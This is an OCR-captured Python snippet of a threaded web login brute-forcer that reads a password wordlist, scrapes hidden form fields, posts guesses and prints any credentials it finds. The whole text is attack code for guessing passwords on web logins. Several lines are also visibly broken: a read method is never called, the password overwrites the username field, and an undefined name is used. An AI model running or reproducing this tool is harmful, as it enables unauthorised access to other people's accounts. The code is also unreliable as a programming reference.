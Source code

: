 ```python
    def web_bruter(self):
        while not self.password_q.empty() and not self.found:
            brute = self.password_q.get().rstrip()
            jar = http.cookiejar.FileCookieJar("cookies")
            opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(jar))
            response = opener.open(target_url)
            page = response.read
            print(f"Trying: {self.username}: {brute} ({self.password_q.qsize()} left)")

            # parse out the hidden fields
            parser = BruteParser()
            parser.feed(page)
            post_tags = parser.tag_results

            # add our username and password fields
            post_tags[username_field] = self.username
            post_tags[username_field] = brute

            login_data = urllib.parse.urlencode(post_tags)
            login_response = opener.open(target_post, login_data)
            login_result = login_response.read()

            if success_check in login_result:
                self.found = True 
                print("[*] Bruteforce successful.")
                print(f"[*] Username: {username}")
                print(f"[*] Password:{brute}")
                print("[*] Waiting for other threads to exit...")

def build_wordlist(word_list_file):
    with open (word_list_file, "r") as l:
        raw_words = [line.rstrip("\n") for line in l]

    found_resume = False
    word_queue = queue.Queue()

    for word in raw_words:
        if resume:
            if found_resume:
                word_queue.put(word)
            else:
                if word == resume:
                    found_resume = True
                    print(f"Resuming wordlist from: {resume}")
        else:
            word_queue.put(word)
    return word_queue

words = build_wordlist(wordlist_file)
bruter_obj = Bruter(username, words)
bruter_obj.run_bruteforce()
```
